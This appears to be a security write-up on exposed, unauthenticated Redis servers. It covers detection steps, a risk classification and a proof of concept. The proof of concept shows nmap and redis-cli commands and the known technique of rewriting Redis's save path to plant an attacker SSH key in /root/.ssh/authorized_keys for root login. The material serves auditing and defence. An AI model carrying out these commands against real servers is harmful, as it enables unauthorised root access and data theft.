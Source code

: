 ```go
```

### Detection Steps

1.  **Network Scans:** Use tools like Shodan, Nmap, or Zmap to identify publicly exposed Redis instances on port 6379 (or other non-standard ports).
2.  **Configuration Review:** Manually inspect `redis.conf` files for `bind` directives, `requirepass` settings, and `protected-mode` status.
3.  **Authentication Test:** Attempt to connect to the Redis instance from an external, untrusted network without providing credentials.
    ```bash
    redis-cli -h <redis_host> -p <redis_port>
    ```
    If you get a `PONG` response or can run commands like `INFO` without `AUTH`, it's likely exposed.
4.  **Traffic Analysis:** Monitor network traffic to/from the Redis server for unencrypted communications or connections from unexpected IPs.
5.  **Vulnerability Scanners:** Utilize general network and application security scanners that include checks for exposed services.

### Proof of Concept (PoC)

1.  **Identify Exposed Redis:**
    ```bash
    nmap -p 6379 --script redis-info <target_IP>
    ```
    (Look for unauthenticated access or detailed `INFO` output)
2.  **Connect with `redis-cli`:**
    ```bash
    redis-cli -h <target_IP>
    ```
    If successful, you'll get a `127.0.0.1:6379>` prompt.
3.  **Execute Commands (Example - RCE via SSH key):**
    Assume the Redis server is running as a user that has an SSH directory (e.g., `redis` user or `root`).
    ```
    127.0.0.1:6379> config set dir /root/.ssh/
    OK
    127.0.0.1:6379> config set dbfilename authorized_keys
    OK
    127.0.0.1:6379> set poc_key "\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC... attacker_key\n"
    OK
    127.0.0.1:6379> save
    OK
    ```
    Now, the attacker can try to SSH into the server using their private key.
    `ssh root@<target_IP>`

### Risk Classification

  * **Confidentiality:** High (sensitive data exposure).
  * **Integrity:** High (data manipulation/corruption).
  * **Availability:** High (DoS possible, e.g., via `FLUSHALL`).
  * **Accountability:** Low (logs might be present, but attribution can be difficult if compromised).

